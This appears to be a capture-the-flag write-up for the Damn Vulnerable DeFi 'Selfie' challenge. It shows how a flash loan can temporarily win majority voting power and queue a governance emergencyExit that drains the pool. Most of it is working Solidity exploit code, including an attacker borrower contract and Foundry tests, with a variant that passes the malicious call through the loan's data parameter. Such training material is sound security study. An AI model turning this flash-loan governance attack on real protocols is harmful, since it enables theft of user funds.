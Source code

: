 ## `flashLoan` Can Be Used to Acquire Voting Power and Execute an Arbitrary `emergencyExit`

To queue an action, a user must possess more than 50% of the total supply of voting tokens. The total supply is 2 million tokens, and a flash loan can be used to acquire up to 1.5 million tokens, which represents 75% of the total supply.

This allows any attacker to temporarily gain the necessary voting power to queue and execute a malicious `emergencyExit` action, potentially draining all funds from the contract.

### PoC
First, we create a malicious borrower smart contract, with a function `onFlashLoan`, that will have the attack logic:
```solidity
contract Borrower is IERC3156FlashBorrower {
    SimpleGovernance gov;
    address pool;
    address recovery;

    constructor(address _gov, address _pool, address _recovery){
        gov = SimpleGovernance(_gov);
        pool = _pool;
        recovery = _recovery;
    }

    function onFlashLoan(
        address /*initiator*/,
        address token,
        uint256 amount,
        uint256 /*fee*/,
        bytes calldata /*data*/
    ) external returns (bytes32) {
        // delegate the borrowed tokens to 'this' (so `token.getVotes` returns such amount) 
        DamnValuableVotes(token).delegate(address(this));
        // prepare malicious call data
        bytes memory data = abi.encodeWithSignature('emergencyExit(address)', recovery);
        // queue the action
        gov.queueAction(pool,0,data);
        // approve and return to avoid tx to fail 
        DamnValuableVotes(token).approve(msg.sender, amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

Then use it on the test case:
```solidity
    function test_selfie() public 
    checkSolvedByPlayer 
    {
        // deploy borrower contract
        Borrower borrower = new Borrower(address(governance), address(pool), recovery);

        // request a flashloan (the callback 'onFlashLoan' has the logic the queue our malicious action) 
        pool.flashLoan(borrower, address(token), pool.maxFlashLoan(address(token)), '');
        // after delay period ends, execute the action
        vm.warp(2 days + 1);
        governance.executeAction(1);
    }
```

### Alternative solution using the data param of the `flashLoan` function (Just for fun)

We can pass a encoded queue function call, and append the governance address at the end of the data, to take it as target (following a similar pattern that `_msgSender` on `naiveReceiver` challenge):

```solidity
contract Borrower is IERC3156FlashBorrower {
    function onFlashLoan(
        address /*initiator*/,
        address token,
        uint256 amount,
        uint256 /*fee*/,
        bytes calldata data
    ) external returns (bytes32) {
        DamnValuableVotes(token).delegate(address(this));
        
        address target = address(bytes20(data[data.length-20:]));
        target.call(data);

        // approve and return to avoid tx to fail 
        DamnValuableVotes(token).approve(msg.sender, amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

```solidity
    function test_selfie() public 
    checkSolvedByPlayer 
    {
        
        Borrower borrower = new Borrower();

        // pass queueAction call on the data param of `flashLoan`
        bytes memory attack_data = abi.encodeWithSignature('emergencyExit(address)', recovery);
        bytes memory callback_data = abi.encodeWithSignature('queueAction(address,uint128,bytes)', pool, 0, attack_data);
        // add the governance address at the end of the data to retrieve it on `onFlashLoan`
        callback_data = abi.encodePacked(callback_data, address(governance));
        pool.flashLoan(borrower, address(token), pool.maxFlashLoan(address(token)), callback_data);

        vm.warp(2 days + 1);
        governance.executeAction(1);
    }
```
